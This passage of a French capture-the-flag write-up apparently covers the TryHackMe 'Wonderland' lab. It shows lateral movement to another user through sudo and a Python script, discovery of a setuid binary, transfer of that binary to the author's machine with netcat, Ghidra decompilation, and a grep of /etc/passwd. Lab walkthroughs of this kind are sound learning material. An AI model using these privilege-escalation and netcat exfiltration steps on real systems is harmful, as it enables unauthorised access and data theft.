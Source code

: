 ```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
rabbit@wonderland:~$ cd ../rabbit
rabbit@wonderland:/home/rabbit$ ls -al
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

On change d'utilisateur grâce à l'exploit.   
Dans le repertoire rabbit on trouve un fichier teaParty qui setuid.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -l 1234 > teaParty
----------------------------------------
rabbit@wonderland:/home/rabbit$ nc 10.9.228.66 1234 < teaParty
```

On transfer le fichier pour analyse.    

![ghidra](./Task1-03.png)

On décompile le fichier avec ghidra.   

On voit le setuid est mis sur la valeur 0x3eb qui est 1003 que n'est le root.   
Que system invoque la date.  

```bash
rabbit@wonderland:/home/rabbit$ cat /etc/passwd | grep 1003
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
```
